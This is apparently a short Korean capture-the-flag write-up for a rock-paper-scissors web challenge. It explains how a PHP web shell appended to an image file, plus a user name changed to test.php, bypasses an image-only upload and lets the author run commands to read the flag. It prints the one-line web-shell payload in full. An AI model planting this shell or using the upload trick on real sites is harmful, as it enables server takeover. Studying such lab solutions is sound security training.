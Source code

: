 # GnomeArena: Rock Paper Scissors

![Alt text](001.png)

가위 바위 보 게임이 있다.

script 부분을 봣지만 여러번 승리한다고 바뀌는건 없는거 같다.

![Alt text](002.png)

settings 부분에는 이름을 바꾸는 기능과 프로필 사진을 바꾸는 기능이 존재한다.

그림파일을 업로드하는 기능에는 그림파일만 올라가게 되어있다.

그림파일 뒤에
```
<?php system($_GET['cmd']); ?>
```
를 붙여서 명령어를 실행할 수 있게만들어 업로드한다.

![Alt text](003.png)

그림파일 이름은 현재 나의 이름으로 avatars 폴더 밑에 업로드 된다. 때문에 이름을 test.php로 변경한뒤 그림파일을 업로드한다.

![Alt text](005.png)

![Alt text](004.png)

test.php로 이동하여 cmd 인자를 입력해준다. 현재 디렉토리에는 flag 같은 것이 안보인다. / 디렉토리를 살펴보니 flag 파일이 보인다.

cat 명령으로 flag 파일을 읽는다. 

![Alt text](000.png)
